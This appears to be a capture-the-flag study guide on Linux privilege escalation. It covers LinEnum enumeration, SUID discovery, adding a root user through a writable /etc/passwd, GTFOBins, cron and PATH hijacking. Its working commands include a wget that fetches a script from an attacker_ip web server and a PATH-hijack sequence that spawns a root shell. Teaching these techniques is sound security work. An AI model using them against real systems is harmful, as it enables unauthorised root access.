

## Understanding Priesc

> What does Privilege Escalation mean ?
Privilege escalation involves elevating permissions from lower to higher levels. It typically entails exploiting vulnerabilities, design flaws, or configuration oversights within an operating system or application. This exploitation allows unauthorized access to resources typically restricted from users.

> Why is it important ?
Privilege escalation is crucial, because it lets you gain system administrator levels of access. This allow you to do many things, including: Reset passwords, bypass access control, change privilege of user, get cheeky root flag and much more.

## Direction of Privilege Escalation



### Horizontal Privilege Escalation

- Horizontal privilege escalation involves expanding control within the compromised system by hijacking a user with the same privilege level as yours. For instance, a normal user taking over another normal user, rather than escalating to superuser. 
- This grants access to the files and privileges of the hijacked user. 
- It can be leveraged to access another normal user with an SUID file in their home directory, enabling superuser access.

### Vertical Privilege Escalation

- Vertical privilege escalation, or privilege elevation, involves seeking higher privileges or access using an already compromised account. 
In local privilege escalation attacks, this entails hijacking an account with administrator or root privileges.

## Enumeration

### LinEnum

LinEnum is a bash script simplifying privilege escalation tasks by executing common commands, freeing up time to focus on gaining root access.

You can get script from[here].(https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

**How to get LinEnum on target**

```bash
# start python webserver on attacker machine

python3 -m http.server 8000

# use wget on target machine to get file.

wget http://attacker_ip:8000/LinEnum.sh

# give +x permission to linenum.sh

chmod +x LinEnum.sh

```

## Abusing SUID/GUID Files

- In Linux privilege escalation, the initial step is to examine files with the SUID/GUID bit set, 
- SUID bit allow them to run with the owner/group's permissions, typically as the super-user. 
- This enables us to obtain a shell with elevated privileges.

the permissions to look for when looking for SUID is:

```bash
SUID: rws-rwx-rwx
GUID: rwx-rws-rwx
```

- Find SUID Binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

## Exploiting Writeable /etc/passwd

- The /etc/passwd file holds crucial login information, including user account details, such as user ID, group ID, home directory, and shell. It's a plain text file that provides essential data for system accounts.
- The /etc/passwd file typically requires general read permission for command utilities to map user IDs to user names. 
- However, write access should be restricted to the superuser/root account only. 
- If this permission isn't properly configured or if a user is mistakenly added to a group with write access, a vulnerability arises. This vulnerability can potentially enable the creation of a root user that we can access.

**Understand /etc/passwd format**

`test:x:0:0:root:/root:/bin/bash
`

1. Username : users username. should be between 1 and 32 characters in length.
2. Password : An x character indicates that encrypted password is stored in /etc/shadow file
3. User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. Group ID (GID): The primary group ID (stored in /etc/group file)
5. User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc.
6. Home directory: The absolute path to the directory the user will be in when they log in
7. Command/shell: The absolute path of a command or shell (/bin/bash).


> How to exploit /etc/passwd ?
if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

## Misconfigured Binaries and GTFOBins

- This exploit hinges on the thoroughness of our user account enumeration. In CTF scenarios, it's crucial to utilize `sudo -l` to list commands accessible as a superuser for each account. 
- Occasionally, this reveals the ability to execute commands as a root user without requiring the root password. Such discoveries facilitate privilege escalation.

- [GTFOBins](https://gtfobins.github.io/)


## Exploiting Crontab

- The Cron daemon is like a time-based task manager. It runs continuously and executes commands at set dates and times. You can schedule tasks to run once or repeatedly by creating a crontab file that contains the commands and instructions for Cron to follow.

- scheduled cronjobs are stored in `cat /etc/crontab` file or you can use LinEnum script to find out cronjob.

### Format of Cronjob

```bash
#  m   h dom mon dow user  command
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly

```

| Sign    | Description                       |
| ------- | --------------------------------- |
| #       | ID                                |
| m       | Minutes                           |
| h       | hour                              |
| dom     | Day of the month                  |
| mon     | month                             |
| dow     | day of the week                   |
| user    | What user the command will run as |
| command | what command should be run.       |

## PATH Variable

- The PATH variable in Linux and Unix-like systems defines directories containing executable programs. When a user runs a command in the terminal, the system searches for executable files in directories listed in the PATH variable to execute the command.
- you can view path of relevant user with `echo $PATH`

### Example

1. suppose we have `script` file with suid bit set and owned by root.

```bash
user5@polobox:/tmp$ ls -l /home/user5/script
-rwsr-xr-x 1 root root 8392 Jun  4  2019 /home/user5/script
```

2. when we run program `./script`, it execute `ls` cmd.

```bash
user5@polobox:~$ cd
user5@polobox:~$ ./script 
Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos
user5@polobox:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  script  Templates  Videos
```

3. Now we need to create `ls` file into `/tmp` folder.

```bash
echo "[whatever command we want to run]" > [name of the executable we're imitating]
```

```bash
echo "/bin/bash" > ls
```

4. Make it executable

```bash
chmod +x ls
```

5. Change PATH variable so that it points to the directory where we have our `ls` file stored.

```bash
export PATH=/tmp:$PATH
```

6. Run the `./script` again and you will get root shell.

